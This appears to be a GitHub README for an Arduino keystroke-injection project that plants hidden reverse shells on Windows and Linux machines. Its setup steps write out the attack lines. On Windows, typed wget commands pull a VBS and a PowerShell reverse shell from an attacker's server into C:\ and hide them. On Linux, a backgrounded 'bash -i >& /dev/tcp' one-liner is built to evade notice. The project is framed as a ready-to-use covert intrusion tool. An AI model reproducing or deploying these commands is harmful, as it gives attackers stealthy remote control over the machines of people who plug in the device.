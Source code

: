 # Reverse Shell Arduino
## Hidden reverse shells with arduino

# How to start   
• To use in Windows, make local http server with python:
  ```
  python -m http.server 80
  ```    

edit file reverse_shell_win.ino and specify address to file:
  ```
  //set address to ur reverse shell file and vbs file
  delay(1000);
  Keyboard.println("wget \"http://<address_to_your_file>/hidden.vbs\" -outfile \"C:\\hidden.vbs\"");
  delay(1000);
  Keyboard.println("wget \"http://<address_to_your_file>/rev.ps1\" -outfile \"C:\\rev.ps1\"");
  ``` 

edit rev.ps1 file and specify ip and port of your machine from which you will use reverse shell:
  ``` 
  $LHOST = "IP"; $LPORT = <PORT>;
  ``` 

• To use in Linux just edit file reverse_shell_win.ino and specify ip and port of your machine:  
  ```
  Keyboard.println("nohup /bin/bash -c \"/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\" >/dev/null 2>&1 &; disown; exit");
  ``` 
# Examples
After connecting the arduino to a windows machine, the necessary files are downloaded and the hidden attribute is set to them so that they are not visible:   

![hidden_files](https://github.com/EvtDanya/Reverse-Shell-Arduino/blob/main/hidden_files.png)  

And our reverse shell is launched:       

![reverse_shell_in_windows](https://github.com/EvtDanya/Reverse-Shell-Arduino/blob/main/reverse_win.png)      

After connecting the arduino to a linux machine, a command is run in the background and it can now be detected only through the list of system processes:  

![reverse_shell_in_linux](https://github.com/EvtDanya/Reverse-Shell-Arduino/blob/main/reverse_lin.png)  

## Feedback  
If you have any questions or suggestions, please dm me https://t.me/d3f3nd3r